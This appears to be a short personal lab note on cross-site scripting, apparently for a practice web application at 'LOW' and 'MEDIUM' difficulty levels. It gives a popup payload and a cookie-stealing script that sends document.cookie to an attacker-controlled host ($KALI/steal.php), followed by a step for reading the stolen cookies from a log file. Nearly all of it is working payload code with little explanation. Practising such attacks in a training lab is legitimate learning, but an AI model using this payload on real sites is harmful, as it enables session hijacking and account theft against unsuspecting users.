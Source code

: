 ```yaml
---
category: Uncategorized
tags: []
---
```

LOW

In the `Name` field:
```
<img src="https://nonexisting.url" onerror=window.open("https://www.owasp.org","xss",'height=500,width=500');>
```


MEDIUM

[[7._XSS#steal php]]

In the `Name` field:
```
<SCRIPT>window.location.replace("http://$KALI/steal.php?q="+document.cookie);</SCRIPT>
```

Now just check `/var/www/html/log.txt` on kali.